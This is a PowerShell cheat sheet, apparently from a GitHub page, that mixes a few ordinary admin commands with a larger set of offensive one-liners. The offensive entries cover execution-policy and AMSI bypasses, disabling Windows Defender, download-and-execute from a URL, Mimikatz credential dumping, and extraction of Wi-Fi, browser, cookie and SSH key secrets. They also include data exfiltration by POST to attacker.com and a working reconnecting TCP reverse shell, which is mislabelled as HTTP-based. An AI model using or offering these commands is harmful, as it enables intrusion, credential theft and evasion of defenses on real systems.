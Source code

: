 # Powershell Tips & Tricks
* **Execution Policy Bypass**
```powershell
powershell -ep bypass
```
* **Enumerating System Information**

This command retrieves detailed information about the operating system, including version, build, and system
architecture.
```powershell
Get-WmiObject -Class Win32_OperatingSystem | Select-Object -Property *
```

* **Extracting Network Configuration**

This command gathers network configuration details such as interface aliases, IPv4 and IPv6 addresses, and
DNS server information.
```powershell
Get-NetIPConfiguration | Select-Object -Property InterfaceAlias, IPv4Address, IPv6Address, DNServer
```

* **Listing Running Processes with Details**

Lists all currently running processes on the system, sorted by CPU usage, and includes process names, IDs, and
CPU time.
```powershell
Get-Process | Select-Object -Property ProcessName, Id, CPU | Sort-Object -Property CPU -Descending
```

* **Accessing Event Logs for Anomalies**

Searches the Security event log for entries where the entry type is ‘FailureAudit’
, which can indicate securityrelated anomalies.
```powershell
Get-EventLog -LogName Security | Where-Object {$_.EntryType -eq 'FailureAudit'}
```

* **Scanning for Open Ports**

Scans the first 1024 ports on the local machine to check for open ports, which can be used to identify potential
vulnerabilities
```powershell
1..1024 | ForEach-Object { $sock = New-Object System.Net.Sockets.TcpClient; $async =
$sock.BeginConnect('localhost', $_, $null, $null); $wait = $async.AsyncWaitHandle.WaitOne(100, $false);
if($sock.Connected) { $_ } ; $sock.Close() }
```

* **Retrieving Stored Credentials**

Prompts for user credentials and then displays the username and password, useful for credential harvesting.
```powershell
$cred = Get-Credential; $cred.GetNetworkCredential() | Select-Object -Property UserName, Password
```

* **Executing Remote Commands**

Executes a command remotely on a target PC, in this case, listing processes. Requires credentials for the target
system.
```powershell
Invoke-Command -ComputerName TargetPC -ScriptBlock { Get-Process } -Credential (Get-Credential)
```

* **Downloading and Executing Scripts from URL**

Downloads and executes a PowerShell script from a specified URL. Useful for executing remote payloads.
```powershell
$url = 'http://example.com/script.ps1'; Invoke-Expression (New-Object Net.WebClient).DownloadString($url)
```

* **Bypassing Execution Policy for Script Execution**

Temporarily bypasses the script execution policy to run a PowerShell script, allowing execution of unsigned
scripts.
```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force; .\script.ps1
```

* **Enumerating Domain Users**

Retrieves a list of all domain users, including their names, account status, and last logon dates.
```powershell
Get-ADUser -Filter * -Properties * | Select-Object -Property Name, Enabled, LastLogonDate
```

* **Extracting Wi-Fi Profiles and Passwords**

Extracts Wi-Fi network profiles and their associated passwords stored on the system.
```powershell
netsh wlan show profiles | Select-String -Pattern 'All User Profile' -AllMatches | ForEach-Object { $_ -replace 'All User Profile *: ', '' } | ForEach-Object { netsh wlan show profile name="$_" key=clear }
```

* **Monitoring File System Changes**

Sets up a monitor on the file system to track and log any changes, such as file creation, which can be useful for
detecting suspicious activity.
```powershell
$watcher = New-Object System.IO.FileSystemWatcher; $watcher.Path = 'C:\';
$watcher.IncludeSubdirectories = $true; $watcher.EnableRaisingEvents = $true; Register-ObjectEvent
$watcher 'Created' -Action { Write-Host 'File Created: ' $Event.SourceEventArgs.FullPath }
```

* **Creating Reverse Shell**

Establishes a reverse shell connection to a specified attacker-controlled machine, allowing remote command
execution.
```powershell
$client = New-Object System.Net.Sockets.TCPClient('attacker_ip', attacker_port); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535...
```


* **Disabling Windows Defender**

Disables Windows Defender’s real-time monitoring feature, which can help in evading detection.
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

* **Extracting Browser Saved Passwords**

Extracts passwords saved in web browsers and saves them to a file, useful for credential harvesting.
```powershell
Invoke-WebBrowserPasswordDump | Out-File -FilePath C:\temp\browser_passwords.txt
```

* **Bypassing AMSI (Anti-Malware Scan Interface)**

Bypasses the Anti-Malware Scan Interface (AMSI) in PowerShell, allowing the execution of potentially
malicious scripts without detection.
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

* **Extracting System Secrets with Mimikatz**

Uses Mimikatz to extract logon passwords and other sensitive data from system memory.
```powershell
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"' | Out-File -FilePath C:\temp\logonpasswords.txt
```

* **In-Memory Script Execution**

Executes a PowerShell script entirely in memory without writing to disk, helping to evade file-based detection
mechanisms.
```powershell
$code = [System.IO.File]::ReadAllText('C:\temp\script.ps1'); Invoke-Expression $code
```

* **Out-Of-Band Data Exfiltration**

Exfiltrates data out of the target network using web requests, which can bypass traditional data loss
prevention mechanisms.
```powershell
$data = Get-Process | ConvertTo-Json; Invoke-RestMethod -Uri 'http://attacker.com/data' -Method Post -Body $data
```

* **Retrieving Browser Cookies for Credential Theft**

Accesses the Chrome browser’s Cookies file, which can contain session cookies that might be exploited for
session hijacking.
```powershell
$env:USERPROFILE + '\AppData\Local\Google\Chrome\User Data\Default\Cookies' | Get-Item
```

* **Extracting Credentials from IIS Application Pools**

Retrieves configuration details of IIS Application Pools, including service accounts, which might contain
credentials.
```powershell
Import-Module WebAdministration; Get-IISAppPool | Select-Object Name, ProcessModel
```

* **Extracting SSH Keys from User Directories**

Searches for RSA private keys in the .ssh directories of all users, which can be used for unauthorized access to
SSH servers.
```powershell
Get-ChildItem -Path C:\Users\*\.ssh\id_rsa -Recurse
```

* **Retrieving Credentials from Database Connection Strings**

Scans for database connection strings in web application configuration files, which often contain credentials
for database access.
```powershell
Select-String -Path C:\inetpub\wwwroot\*.config -Pattern 'connectionString' -CaseSensitive
```

* **HTTP-Based PowerShell Reverse Shell**

This script creates a more resilient reverse shell that attempts to reconnect every 10 seconds if the connection
is lost. It uses HTTP for communication.
```powershell
while($true) { try { $client = New-Object System.Net.Sockets.TCPClient('attacker_ip', attacker_port);
$stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0,$bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()}; $client.Close() } catch { Start-Sleep -Seconds 10 } }
```
















